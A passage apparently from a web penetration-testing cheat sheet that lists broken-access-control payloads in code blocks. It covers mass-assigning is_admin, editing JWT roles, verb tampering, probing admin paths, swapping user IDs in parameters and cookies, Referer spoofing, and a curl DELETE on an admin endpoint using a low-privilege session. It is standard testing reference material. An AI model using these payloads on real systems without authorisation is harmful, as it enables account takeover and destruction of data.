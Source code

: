 ```bash
# Add admin parameter
POST /api/update-profile
{"email": "user@test.com", "is_admin": true}

# Role manipulation in JWT
# Decode JWT, change "role": "user" to "role": "admin", re-encode

# HTTP verb tampering
PUT /api/admin/users (allowed)
POST /api/admin/users (maybe not checked)

# Access admin endpoints
/admin
/administrator  
/wp-admin
/api/v1/admin
/api/admin
/admin-panel

# Parameter injection
/user/profile -> /admin/profile
/users/1 -> /users/1?role=admin

# Missing function level access control
# Test all discovered admin endpoints as low-priv user
curl -X DELETE https://target.com/api/admin/users/1 -H "Cookie: user_session"
```

### Horizontal Privilege Escalation

```bash
# Change user identifier
POST /api/change-email
{"user_id": 1, "email": "new@test.com"}
# Change user_id to victim's ID

# Referer-based access control
Referer: https://target.com/admin
# Some apps check Referer header for authorization

# Session puzzling
# Use same session for different user contexts
1. Login as User A
2. Get session token
3. Perform action as User B using User A's token

# Cookie manipulation
# Change user ID in cookie
Cookie: user_id=1; role=user
# To:
Cookie: user_id=2; role=user
```
